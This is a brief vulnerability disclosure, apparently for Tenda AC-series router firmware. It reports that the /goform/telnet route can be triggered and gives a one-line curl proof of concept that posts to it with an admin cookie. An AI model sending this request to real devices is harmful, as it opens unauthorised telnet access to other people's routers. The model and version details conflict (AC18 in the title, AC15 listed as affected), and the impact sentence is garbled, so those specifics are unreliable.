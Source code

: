 # TendaAC18v15.03.05.05telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

An issue was discovered in AC15v1.0 V15.03.05.19 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20250117231252601](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117231252601.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20250117231359310](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117231359310.png)

